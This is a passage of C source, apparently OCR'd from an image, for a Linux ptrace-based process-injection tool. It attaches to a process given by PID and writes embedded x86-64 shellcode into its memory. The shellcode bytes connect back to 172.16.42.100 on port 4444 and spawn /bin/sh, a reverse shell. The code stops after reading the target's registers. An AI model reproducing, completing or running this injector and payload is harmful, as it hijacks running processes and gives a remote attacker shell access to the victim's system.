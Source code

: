 ```c
#include <sys/ptrace.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <unistd.h>

#include <sys/user.h>
#include <sys/reg.h>

#define SHELLCODE_SIZE 74

unsigned char *shellcode = 
"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97\x48"
"\xb9\x02\x00\x11\x5c\xac\x10\x2a\x64\x51\x48\x89\xe6\x6a\x10"
"\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58"
"\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f"
"\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05"; 


int
inject_data (pid_t pid, unsigned char *src, void *dst, int len)
{
  int      i;
  uint32_t *s = (uint32_t *) src;
  uint32_t *d = (uint32_t *) dst;

  for (i = 0; i < len; i+=4, s++, d++)
    {
      if ((ptrace (PTRACE_POKETEXT, pid, d, *s)) < 0)
	{
	  perror ("ptrace(POKETEXT):");
	  return -1;
	}
    }
  return 0;
}

int
main (int argc, char *argv[])
{
  pid_t                   target;
  struct user_regs_struct regs;
  int                     syscall;
  long                    dst;

  if (argc != 2)
    {
      fprintf (stderr, "Usage:\n\t%s pid\n", argv[0]);
      exit (1);
    }
  target = atoi (argv[1]);
  printf ("+ Tracing process %d\n", target);

  if ((ptrace (PTRACE_ATTACH, target, NULL, NULL)) < 0)
    {
      perror ("ptrace(ATTACH):");
      exit (1);
    }

  printf ("+ Waiting for process...\n");
  wait (NULL);

  printf ("+ Getting Registers\n");
  if ((ptrace (PTRACE_GETREGS, target, NULL, &regs)) < 0)
```